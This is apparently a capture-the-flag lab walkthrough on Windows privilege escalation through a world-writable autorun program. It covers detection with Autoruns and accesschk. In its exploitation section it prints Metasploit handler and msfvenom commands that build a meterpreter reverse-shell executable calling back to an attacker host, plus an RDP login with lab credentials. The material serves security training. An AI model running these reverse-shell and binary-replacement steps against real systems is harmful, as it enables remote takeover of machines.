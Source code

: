 # Exploit Autorun Startup Programs

Running Autoruns64.exe from [Sysinternals](https://learn.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) we can view which programs that run from the autorun registry keys or folders. This tool also provides insight into Scheduled Tasks, Services, WinLogon, DLLS, and more.

Manual detection would require looking for entries in the following two registry keys:

```bash
PS C:\Users\kamino> Get-Item -Path Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

PS C:\Users\kamino> Get-Item -Path Registry::HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce
```

## Detection

Run Autoruns64.exe on the target system.

```bash
C:\Users\user> C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe
```

![autorun](images/autorun.png)

In Autoruns, click on the ‘`Logon`’ tab.
From the listed results, notice that the “`My Program`” entry is pointing to “C:\Program Files\Autorun Program\program.exe”.

![logon](images/logon.png)

Run `accesschk64.exe` against `My Program`

```bash
C:\Users\user> C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"
```

From the output, notice that the “`Everyone`” user group has “`FILE_ALL_ACCESS`” permission on the “program.exe” file.

![everyone](images/everyone.png)

## Exploitation

Start a multi-handler reverse shell

```bash
┌──(vagrant㉿kali)-[~/Documents/THM/windowsprivescarena]
└─$ msfconsole -q
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.18.48.44
LHOST => 10.18.48.44
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.18.48.44:4444
```

Generate `msfvenom` exploit

```bash
┌──(vagrant㉿kali)-[~/Documents/THM/windowsprivescarena]
└─$ msfvenom -p windows/meterpreter/reverse_tcp lhost=10.18.48.44 lport=4444 -f exe -o program.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
Saved as: program.exe
```

Serve file on Python http server
Download from IE on target

![program](images/program.png)

Replace the “autorun” file program.exe on the target

![replace](images/replace.png)

## Logoff and Log Back On System

To simulate the privilege escalation effect, logoff and then log back on as an `administrator` user.

```bash
┌──(vagrant㉿kali)-[~/Documents/THM/windowsprivescarena]
└─$ xfreerdp /v:10.10.215.72 /u:TCM /p:Hacker123 +clipboard
```

![run](images/run.png)

![shell](images/shell.png)
